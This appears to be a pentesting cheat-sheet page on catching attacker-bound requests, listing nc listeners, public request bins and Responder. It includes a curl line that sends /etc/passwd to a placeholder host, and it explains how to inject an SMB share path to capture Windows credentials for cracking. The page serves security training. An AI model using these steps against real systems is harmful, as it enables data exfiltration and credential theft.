 # Request Grabber

<div class="row row-cols-lg-2"><div>

During pentesting activies, we may want to catch HTTP requests, such as during a CSRF attack or a XSS attack.

If our machine is network accessible, we can use `nc`:

```shell!
$ nc -lnvp PORT
<send request to YOUR_PUBLIC_IP:PORT>
```

Otherwise, we may use online public solutions.
</div><div>

For instance, we can use API Testing Platforms:

* [requestbin](https://public.requestbin.com/r/) <small>(HTTP 🌍)</small>
* [postbin](https://www.toptal.com/developers/postbin/) <small>(HTTP 🌍)</small>
* [ngrok](https://ngrok.com/) <small>(HTTP 🌍 and TCP ⭐, account required 🪦)</small>
* [requestinspector](https://requestinspector.com/) <small>(HTTP 🌍)</small>
* ...

```ps
$ curl http://XXX/xxxxxx -F "data=@/etc/passwd"
```
</div></div>

<hr class="sep-both">

## Additional tools

<div class="row row-cols-lg-2"><div>

#### Responder

[![server_side_attacks](../../../_badges/htb/server_side_attacks.svg)](https://academy.hackthebox.com/course/preview/server-side-attacks)
[![attacking_common_services](../../../_badges/htb/attacking_common_services.svg)](https://academy.hackthebox.com/course/preview/attacking-common-services)
[![return](../../../_badges/htb-p/return.svg)](https://app.hackthebox.com/machines/Return)

You can use [responder](https://github.com/lgandx/Responder) to catch Windows authentication requests.

For instance, a website may be using SMB to access some shares based on the user input. If we inject a share leading to our machine, we may be able to grab credentials.

```ps
$ sudo responder -i IP -I tun0
```

In the previous example, if we inject `//YOUR_IP/anything`. If the website was configured to use the current user credentials to connect to the share, then you will receive them, and will have to crack them.

📚 It works with SMB, LDAP, etc.
</div><div>
</div></div>